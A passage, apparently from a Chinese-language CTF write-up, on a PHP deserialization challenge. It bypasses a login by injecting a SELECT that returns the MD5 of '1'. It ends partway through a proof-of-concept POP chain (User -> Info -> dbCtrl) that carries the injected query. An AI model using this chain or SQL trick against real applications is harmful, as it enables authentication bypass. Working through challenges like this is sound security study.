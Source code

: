 这里达到目的有两种方式，都是利用dbCtrl类的login方法。

一是使$this->token == admin。

![](https://gitee.com/R1ta_Violet/blogimg/raw/master/imgs/image-20210805150616717.png)

二是输入正确的密码。

![](https://gitee.com/R1ta_Violet/blogimg/raw/master/imgs/image-20210805150639158.png)

由于sql语句可控，这里我们用第二种方法。

sql语句改为`select "1","c4ca4238a0b923820dcc509a6f75849b" from user where username=?`

1的md5值为`c4ca4238a0b923820dcc509a6f75849b`通过这个语句输出的结果会返回1，则我们只需要控制$this->password的值即可。

![](https://gitee.com/R1ta_Violet/blogimg/raw/master/imgs/image-20210805151121757.png)

这里直接给poc:

```php
<?php

class User
{
    public $id;
    public $age;
    public $nickname;
    public function __construct(){
        $this->id = "1";
        $this->age = 'select "1","c4ca4238a0b923820dcc509a6f75849b" from user where username=?';
        $this->nickname = new Info();
    }
}

class Info
{
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct()
    {
        $this->age = "1";
        $this->nickname = "2";
        $this->CtrlCase = new dbCtrl();
    }
}

class UpdateHelper
{
    public $sql;
}

class dbCtrl
{
    public $hostname = "127.0.0.1";
    public $dbuser = "root";
    public $dbpass = "root";
    public $database = "test";
    public $name;
    public $password;
    public $mysqli;
    public $token;
    public $test;
    public function __construct(){
        $this->password = "1";
```